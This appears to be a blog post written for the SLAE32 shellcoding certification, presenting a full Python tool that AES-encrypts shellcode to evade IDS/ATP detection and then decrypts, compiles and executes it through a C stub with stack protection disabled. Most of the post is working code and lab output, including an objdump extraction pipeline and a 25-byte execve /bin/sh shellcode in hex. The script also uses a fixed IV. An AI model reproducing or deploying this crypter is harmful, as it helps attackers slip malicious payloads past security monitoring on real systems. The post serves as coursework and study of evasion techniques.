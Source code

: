 ```yaml
---
layout: single
title: AES Block Cipher script for Shellcodes
date: 2019-10-18
classes: wide
header:
  teaser: /assets/images/SLAE32/shellcoding32.png
tags:
  - Assembly
  - Pentester Academy
  - SLAE32
  - Shellcode
  - Certifications
--- 
```

![](/assets/images/SLAE32/shellcoding32.png)

## Introduction
I think the best way to obfuscate shellcodes to avoid IDS/ATP protection is the polyphormism method, but also encrypting the shellcode could be a valid alternative to bypass those control systems. There are a lot of cipher algorithms outside to choose for this purpose but we need considering some aspects in this case. First we need a strong algorithm to prevent bruteforce on key or frequency analysys attack on ciphered text, second we need our implementation easy to write, easy to use and fast on encrypting/decrypting operations.<br>
First of all we need to choose if we want to implement a stream or block cipher, let's look at some features:

| 1. |	Block Cipher Converts the plain text into cipher text by taking plain text’s block at a time. |	Stream Cipher Converts the plaint text into cipher text by taking 1 byte of plain text at a time.
| 2. |	The complexity of block cipher is simple. |	Stream cipher is more complex.
| 3. |	Block cipher uses confusion as well as diffusion. |	Stream cipher uses only confusion.

There are many other features to list but this isn't the scope of this post. If you want to deep learn informations on block and stream ciphers I suggest to read this [book](https://www.crcpress.com/Cryptography-Theory-and-Practice/Stinson-Paterson/p/book/9781138197015).<br>
We choosed a block cipher algorithm. Next decisiom to make is what block cipher algorithm? According to [Wikipedia](https://en.wikipedia.org/wiki/Block_cipher) there are a lot of block cipher but one in particular is adopted by the NIST, the Advanced Encryption Standard (AES), wich could encrypt plain text block with a maximum 256 byte key size.<br>

## Implementation
Sometimes ago i wrote a python script for my [Github Redteam toolbox](https://github.com/bolonobolo/toolbox/blob/master/criptography/block_cipher.py) that works with block ciphers (AES, DES and 3DES).
So we've only to make some small changes on this script to make it operational on encrypting/decrypting and executing shellcode.
The original script works with OFB variant of the AES algorithm that means that i've to use alway a different Initiator Vector (IV).
In this case we work with CBC mode so the IV could be a fixed 16 bytes string.
However the main change to make is to add a function that execute our shellcode once it is decrypted.
Here's the code.<br>
```python
#!/usr/bin/python

# AES Block Cipher script for shellcodes
# Author: @bolonobolo
# Date: 2019/10/18

from Crypto.Cipher import AES
from base64 import b64encode,b64decode
import random
import string
import os

def getMode():
	while True:
		print ("Welcome to AES Block Cipher script for shellcodes")
		print("Do you wish do (e)ncrypt, (d)ecrypt or e(x)ecute?")
		mode = raw_input().lower()
		if mode in "encrypt e decrypt d execute x".split():
			return mode
		else:
			print('Enter either "encrypt" or "e", "decrypt" or "d", "execute" or "x".')

def getMessage():
	print("Enter the text")
	return raw_input()

def getKey():
	print("Enter the key")
	return raw_input()

def getIV():
	# 16 byte iv
	iv = "0123456789abcdef"
	return iv


def genkey(length):
	key = []
	# in ascii one letter = 8 bit = 1 byte 
	# AES needs 128, 192, or 256 bits, i choosed 256 256/8 = 32
	for _ in range (0,length):
		key.append(random.SystemRandom().choice(
				string.ascii_uppercase + string.ascii_lowercase + string.digits
				)) 
	return ''.join(key)

def aes(cipher, key, iv):
	cipher = AES.new(key, AES.MODE_CBC, iv)
	return cipher

def padding(size, text):
	while len(text) % size != 0:
			text += " "
	return text	

def cipherAlgo(key, text, size, iv):
	cipher = aes("aes", key, iv)	
	text = padding(size, text)
	text = cipher.encrypt(text)
	msg = b64encode(text)
	return msg

def decipherAlgo(key, text, iv):
	cipher = aes("aes", key, iv)
	text = b64decode(text)	
	msg = cipher.decrypt(text)
	return msg

def executeAlgo(code):
	code = code.replace(" ", "") # eventualy clean code from blank spaces
	file = open("shellcode.c", "w")
	file.write('''
		#include<stdio.h>
		#include<string.h>

		unsigned char code[] = \"''' + code + '''";

		void main() {

			printf(\"Shellcode Length:  %d\\n\", strlen(code));

			int (*ret)() = (int(*)())code;

			ret();

		}'''
	)
	file.close()
	os.system("gcc -fno-stack-protector -z execstack -m32 shellcode.c -o shellcode 2>/dev/null && ./shellcode")

def main():
	mode = getMode()
	text = getMessage()
	iv = getIV()
	if mode[0] == "e":
		key = genkey(32) # 256 bits of key
		size = 16 # block size has to be 16 bytes
		msg = cipherAlgo(key, text, size, iv)
		print("Encrypted shellcode: %s" % (msg))
		print("The key is: %s" % (key))
		# print("The IV is: %s" % (iv))
	elif mode[0] == "d":
		key = getKey()
		msg = decipherAlgo(key, text, iv)
		print("Decrypted shellcode: %s" % (msg))
	elif mode[0] == "x":
		key = getKey()
		msg = decipherAlgo(key, text, iv)
		print("Decrypted shellcode: %s" % (msg))
		executeAlgo(msg)	

if __name__ == '__main__':
	main()
```    

## Simple usage
Theentire workflow is very simple, first we need to extract the hexadecimal values of our shellcode with ```objdump``` command, next we launch the script choosing the ```encrypt``` option, paste our hex string, press enter and obtain the encrypted string and the key.
Now we can relauch the script but this time we'll choose the ```execute``` option that decrypt the encrypted shellcode, write a C executer, compile it and execute it.<br>
```bash
root@slae32-lab:# objdump -d ../6_polimorphism/execve|grep '[0-9a-f]:'|grep -v 'file'|cut -f2 -d:|cut -f1-7 -d' '|tr -s ' '|tr '\t' ' '|sed 's/ $//g'|sed 's/ /\\x/g'|paste -d '' -s |sed 's/^/"/'|sed 's/$/"/g'
"\x99\xf7\xe2\x8d\x08\xbe\x2f\x2f\x73\x68\xbf\x2f\x62\x69\x6e\x51\x56\x57\x8d\x1c\x24\xb0\x0b\xcd\x80"
root@slae32-lab:# ./aes_executor.py 
Welcome to AES Block Cipher script for shellcodes
Do you wish do (e)ncrypt, (d)ecrypt or e(x)ecute?
e
Enter the text
\x99\xf7\xe2\x8d\x08\xbe\x2f\x2f\x73\x68\xbf\x2f\x62\x69\x6e\x51\x56\x57\x8d\x1c\x24\xb0\x0b\xcd\x80
Encrypted shellcode: 2QYEdFCoEH6s9iEa0+57BRONKsF4Ufr71I5mncYiKy2F0X2mupdgtFUKejUn5fUTMk303rxkePzjeDdOyzG1jyjNDn1CyWLYvugabvARSmb0q7PCIO4RA0l1/s/LuVWlvudmXFZrqa7d9VvXDH6QHQ==
The key is: PQZic8H9KiuMrAv2n0Y26cqWkH9CQiAv
root@slae32-lab:# ./aes_executor.py 
Welcome to AES Block Cipher script for shellcodes
Do you wish do (e)ncrypt, (d)ecrypt or e(x)ecute?
x
Enter the text
2QYEdFCoEH6s9iEa0+57BRONKsF4Ufr71I5mncYiKy2F0X2mupdgtFUKejUn5fUTMk303rxkePzjeDdOyzG1jyjNDn1CyWLYvugabvARSmb0q7PCIO4RA0l1/s/LuVWlvudmXFZrqa7d9VvXDH6QHQ==
Enter the key
PQZic8H9KiuMrAv2n0Y26cqWkH9CQiAv
Decrypted shellcode: \x99\xf7\xe2\x8d\x08\xbe\x2f\x2f\x73\x68\xbf\x2f\x62\x69\x6e\x51\x56\x57\x8d\x1c\x24\xb0\x0b\xcd\x80            
Shellcode Length:  25
# exit
root@slae32-lab:# ls
aes_executor.py  shellcode  shellcode.c
```
For our test we choose the last 25 bytes execve /bin/sh shellcode.<br>
![](/assets/images/SLAE32/assignment_7/crypto_0.gif)<br>
Nice job<br>
<br>
All the codes used in this post are available in my dedicated [github repo](https://github.com/bolonobolo/SLAE32_code).<br>
<br>
This blog post has been created for completing the requirements <br>
of the SecurityTube Linux Assembly Expert certification: [SLAE32 Course](http://securitytube-­training.com/online­‐courses/securitytube­‐linux­‐assembly­‐expert/)<br>
